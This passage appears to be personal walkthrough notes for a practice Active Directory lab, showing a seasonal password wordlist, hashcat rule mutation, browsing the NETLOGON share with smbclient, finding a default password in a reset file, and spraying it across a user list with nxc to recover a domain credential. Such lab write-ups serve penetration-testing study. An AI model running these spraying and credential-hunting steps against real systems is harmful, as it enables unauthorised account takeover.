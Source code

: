 ![[PG/Active Directory/attachments/Pasted image 20250709003405.png]]
- nope

Maybe another custom password list and new user list is the way?

```
Summer2023
Spring2023
Winter2023
Fall2023
Autumn2023
Password1!
P@ssword
Space2023
Aerospace2023
Hokkaido2023
```

```
hashcat --stdout -r /usr/share/hashcat/rules/best64.rule your_wordlist.txt > generated_wordlist.txt
```

![[PG/Active Directory/attachments/Pasted image 20250709004857.png]]

Okie fuck. I should look through the default shares too..

Going back to SMB

```
smbclient -U 'info' //192.168.194.40/NETLOGON
```

There's a password reset file in here 

![[PG/Active Directory/attachments/Pasted image 20250709005346.png]]

Annnd it has a password :)

![[PG/Active Directory/attachments/Pasted image 20250709005430.png]]
```
Start123!
```

So we can probs password spray with our username list instead 

```
nxc smb 192.168.194.40 -u 'users-rpc.txt' -p 'Start123!'
```
![[PG/Active Directory/attachments/Pasted image 20250709005702.png]]
- A match! 

```
hokkaido-aerospace.com\discovery:Start123!
```

No winrm :(

```
nxc winrm 192.168.194.40 -u 'discovery' -p 'Start123!'
```
![[PG/Active Directory/attachments/Pasted image 20250709005856.png]]
